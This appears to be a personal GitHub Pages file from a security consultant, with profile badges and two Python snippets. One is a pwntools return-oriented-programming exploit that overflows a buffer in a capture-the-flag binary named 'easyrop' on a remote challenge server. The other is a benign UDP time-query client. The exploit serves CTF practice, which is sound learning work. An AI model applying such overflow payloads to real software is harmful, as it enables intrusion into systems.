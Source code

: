 ```yaml
---
layout: default
---
```


<script src="https://platform.linkedin.com/badges/js/profile.js" async defer type="text/javascript"></script>

<div class="badge-base LI-profile-badge" data-locale="en_US" data-size="medium" data-theme="dark" data-type="VERTICAL" data-vanity="cyber-consultant" data-version="v1"><a class="badge-base__link LI-simple-link" href="https://www.linkedin.com/in/cyber-consultant?trk=profile-badge">M Harrison</a></div>
              
|<script src="https://tryhackme.com/badge/60599"></script> |<script src="https://www.hackthebox.eu/badge/277042"></script>|

```py
from pwn import *

#p = process('./easyrop')
p = remote('hsg1.superhero1.com', 9002)
e = ELF('./easyrop')

ckpt1 = p64(e.symbols.checkpoint1) # finds address
ckpt2 = p64(e.symbols.checkpoint2)
secret = p64(e.symbols.secret)
#print(ckpt1, ckpt2)

# start interaction
# padding 
padding = b'A' *0x68  # 96 + 8 
payload = padding
payload += ckpt1
payload += ckpt2
payload += secret

p.sendline(payload)
data = p.recvall()
print(data)

```

What about NTP you ask?
```py
import struct
import socket
import time
import datetime

#  lib8time.cityinthe.cloud port 2038
# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

# Bind the socket to the port
server_address = ('lib8time.cityinthe.cloud', 2038)

# Calculate current time
t = int(time.time())

# Create the packet data
packet = struct.pack('>hiqq',4919,1,t,int((time.time() % 1)*1000000))

# Send packet and get response
sock.sendto(packet, server_address)
data, address = sock.recvfrom(4096)

# Unpack the response
r = struct.unpack('>hiqqqq',bytes(data))
print(r)

# Parse the response
ct_s = r[2]
st_s = r[4]
ct_m = r[3]
st_m = r[5]

# Parse the time and convert to readable format in UTC
client_time = time.strftime('%Y-%m-%d %H:%M:%S', time.gmtime(ct_s))
server_time = time.strftime('%Y-%m-%d %H:%M:%S', time.gmtime(st_s))
print("Client time now (UTC):{}".format(client_time))
print("Server time now (UTC):{}".format(server_time))

# Calcualte the difference in Hour
print("Hours difference: {}".format((st_s-ct_s)/3600))
```